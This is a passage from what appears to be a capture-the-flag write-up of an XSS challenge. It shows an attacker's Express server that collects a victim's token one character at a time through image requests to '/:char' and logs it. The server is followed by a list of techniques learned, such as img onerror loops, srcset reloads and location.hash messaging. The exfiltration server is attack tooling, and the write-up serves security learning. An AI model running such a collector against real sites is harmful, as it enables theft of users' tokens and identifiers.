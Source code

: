 ``` js
    }
  }

  handle(req, res)
})

app.get('/:char', (req, res) => {
  // already start stealing identifier
  if (req.params.char.length > 1) {
    res.end()
    return
  }
  console.log('char received', req.params.char)
  if (data.loopStarted) {
    data.token += req.params.char
    console.log('token:', data.token)
    data.canSendBack = true

    res.status(500)
    res.end()
    return 
  }

  // first round
  data.count++
  if (data.count === 36) {
    console.log('initial image loaded, start loop')
    data.count = 0
    data.loopStarted = true
    data.canStartLoop = true
  }
  res.status(500)
  res.end()
})

app.listen(5555, () => {
  console.log('5555')
})
```

## Conclusion

I learned a lot from this XSS challenge, such as:

1. Using `img src` + `onerror` to create a loop (actually, it should be recursion).
2. Using `img src` + `srcset` to repeatedly load images.
3. Using `location.hash` to exchange information.
4. Thinking about problems in a different way, using `>` and `<` instead of `==`, and using comparison instead of equality.
5. Using `/a/.source` or `img.alt` to replace strings, instead of constructing strings with single or double backticks.
